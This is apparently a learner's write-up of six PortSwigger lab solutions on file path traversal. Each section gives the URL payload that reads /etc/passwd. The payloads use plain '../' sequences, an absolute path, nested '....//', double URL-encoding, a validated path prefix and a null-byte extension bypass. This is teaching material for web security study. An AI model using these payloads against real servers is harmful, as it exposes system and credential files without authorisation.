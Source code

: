 # Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), simple case

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


we start by accessing the page source code and copied the path to the image file:


```http
https://0a36005e034cede280fe3198000b00f4.web-security-academy.net/image?filename=48.jpg
```

we now modify this link to the path of `/etc/passwd` :

```http
https://0a36005e034cede280fe3198000b00f4.web-security-academy.net/image?filename=/../../../etc/passwd
```

and we solved the lab:


![1695712761088.png](./1695712761088.png)



# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences blocked with absolute path bypass


This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images. supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


Accessing the challenge link; we try fuzzing for the directory traversal vulnerability as done earlier in the first lab

we copy the address of one of the images and editted it as follows:

```http
https://0ad1000e03af75ed84db10bf006600f6.web-security-academy.net/image?filename=/etc/passwd
```

we use the absolute file path to access the etc/passd file and solved the lab:

![1695715319507.png](./1695715319507.png)




# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences stripped non-recursively

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

After fuzzing we use the following link to access the /etc/passwd file

```http
https://0a200069044e71f880564996008f0009.web-security-academy.net/image?filename=....//....//....//....//etc/passwd
```

as you could see, we added `....//` at the beginning of each traversal, this is done to bypass the stripping of the traversal sequences. These revert to simple traversal sequences when the inner sequence is stripped.

sending this request solves the lab:

![1695715831462.png](./1695715831462.png)


# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences stripped with superfluous URL-decode


This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

In this challenge we tend to bpyass the stripping of traversal in the web server in a multipart/form-data request to it.

bypassing this kind of sanitization by URL encoding, or even double URL encoding, the `../` characters. This results in `%2e%2e%2f` and `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`, may also work.

we used the second option of encoding the traversal in this lab we use the following:

```http
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

this is simply the traversal payload we have been using in the previous lab url-encoded twice, decoding it twice gives us back the payload:

 ![1695716524822.png](./1695716524822.png)



we send this request in burp:

 ![1695716550939.png](./1695716550939.png)

and we got the following response:

 ![1695716595099.png](./1695716595099.png)

And we solved the lab:

 ![1695716627989.png](./1695716627989.png)




# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), validation of start of path

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

This lab talks about the validation of the start path where the server fetchs the image content from, to solve this lab we simply traverse out of this lab and access the passwd file using the following payload:

```http
https://0a0b004103a4630d803ed106005f00c2.web-security-academy.net/image?filename=/var/www/images/../../../../../etc/passwd
```

sending this request solves the lab:

 ![1695716925240.png](./1695716925240.png)


# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), validation of file extension with null byte bypass

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

In this lab, our aim is to bypass the extension added at the end of the file name in this case the .png extension added by default, the trick here is to use the null byte to escape it so as to retain the filename, we use the url encoded null byte `%00` and append it at the end of our filename including the .png extension: 

```http
https://0a2800b70336a269800ed0a20025001c.web-security-academy.net/image?filename=../../../../../etc/passwd%00.png
```

sending this request solves the lab:

 ![1695717283024.png](./1695717283024.png)



And that's the end of the path travesal labs on portswigger!!!!
